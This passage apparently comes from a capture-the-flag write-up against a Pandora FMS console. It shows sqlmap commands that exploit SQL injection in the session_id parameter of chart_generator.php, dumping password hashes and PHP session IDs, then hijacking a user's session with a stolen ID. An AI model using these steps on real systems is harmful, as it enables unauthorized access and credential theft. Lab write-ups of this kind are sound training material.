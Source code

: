 ```
| tservice |
| tservice_element |
| tsesion |
| tsesion_extended |
| tsessions_php |
| tskin |
| ... |
+------------------------------------+
```

> We need to see the `tpassword_history` and `tsessions_php` table!

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''" -T tpassword_history --dump

Database: pandora
Table: tpassword_history
[2 entries]

id_user -> matt ; password -> f655f807365b6dc602b31ab3d6d43acc
id_user -> daniel; password -> 76323c174bd49ffbbdedf678f6cc89a6
```

> I changed the table to make it look good. However, nothing is taken out of these hashes, I have gone through crackstation and does not return anything.

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''" -T tsessions_php --dump

Database: pandora
Table: tsessions_php
[50 entries]

...
id_session -> avkp2qo6r8237spa3ohavnml52; id_usuario -> admin
id_session -> g4e01qdgk36mfdh90hvcc54umq; id_usuario -> matt
id_session -> hsftvg6j5m3vcmut6ln6ig8b0f; id_usuario -> admin
...
```

> I changed this table too, we just need to focus on admin and matt user.

#### Matt access

I tried with admin session but it didn't work. Now changing session_id to g4e01qdgk36mfdh90hvcc54umq we enter like matt.
